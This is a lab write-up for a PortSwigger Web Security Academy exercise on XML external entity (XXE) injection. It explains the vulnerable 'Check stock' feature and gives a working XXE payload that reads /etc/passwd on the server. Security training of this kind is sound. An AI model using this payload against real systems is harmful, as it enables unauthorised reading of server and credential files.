

# Exploiting XXE using external entities to retrieve files

**Lab Url**: [https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files)

## Objective

This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

To solve the lab, inject an XML external entity to retrieve the contents of the `/etc/passwd` file.

## Solution

The stock check feature sends product data in XML format. If the XML parser is configured to resolve external entities, we can define an entity that reads a local file.

### Step 1: Inject an external entity

Replace the normal stock check XML with one that defines an external entity pointing to `/etc/passwd`:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
</stockCheck>
```

The entity `&xxe;` is replaced with the contents of `/etc/passwd` when the XML is parsed. The response includes the file contents, solving the lab.


